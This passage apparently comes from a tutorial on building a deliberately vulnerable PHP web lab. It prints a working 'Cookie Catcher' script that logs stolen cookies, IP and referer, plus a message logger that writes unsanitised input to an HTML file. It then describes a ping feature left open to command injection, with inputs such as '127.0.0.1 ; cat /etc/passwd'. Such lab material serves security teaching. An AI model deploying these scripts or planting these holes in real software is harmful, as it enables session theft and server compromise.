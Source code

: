 <p class="code">Code for "message.php", once the message is sent, this code stores the message in a file named text.html</p>

``` php
 <?php
    $text = $_GET['c'];
    $ip = getenv ('REMOTE_ADDR');
    $date=date("j F, Y, g:i a");;
    $referer=getenv ('HTTP_REFERER');
    $fp = fopen('text.html', 'a');
    fwrite($fp, 'Message: '.$text.'<br> IP: ' .$ip. '<br> Date and Time: ' .$date. '<br> Referer: '.$referer.'<br><br><br>');
    fclose($fp);
    //Redirect the user to google.com
    header ("Location: http://www.google.com");
 ?>   
```


<p class="code">Code for "Cookie Catcher file". Note that this file should be stored somewhere on the internet, we call the url of the file with an argument "c" in which we pass the cookie. This file then takes the cookie and other information and writes all the values into a file named "user_info.html". </p>


``` php
   <?php
    $cookie = $_GET['c'];
    $ip = getenv ('REMOTE_ADDR');
    $date=date("j F, Y, g:i a");;
    $referer=getenv ('HTTP_REFERER');
    $fp = fopen('user_info.html', 'a');
    fwrite($fp, 'Cookie: '.$cookie.'<br> IP: ' .$ip. '<br> Date and Time: ' .$date. '<br> Referer: '.$referer.'<br><br><br>');
    fclose($fp);
    //Redirect the user to google.com
    header ("Location: http://www.google.com");
    ?>
```




<b>5) Inserting Remote Command Execution vulnerability</b>

<p>Phpmyadmin comes with a footer.php file where we can write code which should appear at the bottom of every page in the application. In this case the admin allows the user to ping any server in the world by running the ping command on his server but not filtering out the input properly. So if the attacker inputs something like this <i>"127.0.0.1 ; ls" OR "127.0.0.1 ; cat /etc/passwd"</i> he can run these commands on the remote webserver and see the output too.</p>

<p>Here is how the footer appears in phpMyAdmin</p>
